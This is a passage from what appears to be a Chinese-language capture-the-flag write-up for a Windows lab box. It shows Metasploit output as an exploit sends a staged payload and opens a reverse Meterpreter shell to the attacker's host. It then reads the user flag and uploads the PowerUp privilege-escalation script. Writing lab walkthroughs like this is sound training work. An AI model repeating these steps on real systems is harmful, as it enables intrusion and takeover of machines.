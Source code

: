 [*] Started reverse TCP handler on 10.11.61.123:4444 
[*] Using URL: http://10.11.61.123:8080/vZHbRLh
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /vZHbRLh
[*] Sending stage (175686 bytes) to 10.10.205.47
[!] Tried to delete %TEMP%\hZLxhZefZcYjG.vbs, unknown result
[*] Meterpreter session 1 opened (10.11.61.123:4444 -> 10.10.205.47:49199) at 2023-12-04 08:31:30 -0500
[*] Server stopped.

meterpreter > shell
Process 1996 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>
···
C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

12/01/2023  07:15 AM    <DIR>          .
12/01/2023  07:15 AM    <DIR>          ..
12/01/2023  07:15 AM            73,802 ASCService.exe
09/27/2019  04:42 AM                70 user.txt
12/01/2023  07:02 AM         1,968,640 winPEAS.exe
               3 File(s)      2,042,512 bytes
               2 Dir(s)  44,151,918,592 bytes free
```

此时皆可以获取 flag -- ```type user.txt```

## 权限提升

+ 这里使用一个名为PowerUp的powershell脚本，其目的是评估Windows机器并确定任何异常

    + 下载到本地：[PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

    + 上传到meterpreter:

      ```
      meterpreter > upload /home/kali/桌面/THM/steelmountion/PowerUp/PowerUp.ps1
      [*] uploading  : /home/kali/桌面/THM/steelmountion/PowerUp/PowerUp.ps1 -> PowerUp.ps1
      [*] Uploaded 591.37 KiB of 591.37 KiB (100.0%): /home/kali/桌面/THM/steelmountion/PowerUp/PowerUp.ps1 -> PowerUp.ps1
      [*] uploaded   : /home/kali/桌面/THM/steelmountion/PowerUp/PowerUp.ps1 -> PowerUp.ps1
      meterpreter > dir
      Listing: C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
      ====================================================================================

      Mode              Size    Type  Last modified              Name
      ----              ----    ----  -------------              ----
      040777/rwxrwxrwx  4096    dir   2023-12-04 08:31:29 -0500  %TEMP%
      100666/rw-rw-rw-  605567  fil   2023-12-04 08:36:38 -0500  PowerUp.ps1
      100666/rw-rw-rw-  174     fil   2019-09-27 07:07:07 -0400  desktop.ini
      100777/rwxrwxrwx  760320  fil   2014-02-16 15:58:52 -0500  hfs.exe

      ```

   + 登入powershell加载扩展并执行：
```